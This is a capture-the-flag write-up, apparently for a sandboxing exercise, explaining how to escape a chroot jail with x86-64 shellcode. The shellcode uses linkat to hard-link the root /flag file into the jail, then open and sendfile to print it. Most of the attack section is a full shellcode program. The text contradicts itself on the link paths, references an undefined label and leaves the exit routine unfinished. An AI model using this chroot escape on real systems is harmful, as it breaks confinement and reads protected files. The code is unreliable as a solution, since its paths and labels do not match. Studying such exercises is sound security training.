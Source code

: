 &nbsp;

## level 5
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "linkat", "open", "read", "write", "sendfile"

- We can no longer use `openat`, but now we are allowed to use `linkat`.
-  It takes five arguments.
```
int linkat(int olddirfd, const char *oldpath, int newdirfd, const char *newpath, int flags);
```
- A hard link is an entry that associate a name with a file. 
- Using `linkat` we ca create a hard link in `/tmp/jail/` that points to the `/flag` file in root `/` directory.
- This allows us to access `/flag` inside of `/tmp/jail/` using a different name.
```
# Linkat syscall
mov rdi, 3
lea rsi, [rip + old_path]
mov rdx, 4
lea r10, [rip + new_path]
mov r8, 0
mov rax, 0x109
syscall

old_path: 
.string "flag"

new_path: 
.string "/flag"
```
- Note that `linkat` returns a value of 0 on success.
- Now we can access `/flag` using `/flag2.txt`.

```
.global _start
.intel_syntax noprefix

_start:
	# Linkat syscall
	mov rdi, 3
	lea rsi, [rip + old_path]
	mov rdx, 4
	lea r10, [rip + new_path]
	mov r8, 0
	mov rax, 0x109
	syscall

	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
	mov rax, 0x02
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall

	# Exit syscall
	mov rdi, 0
```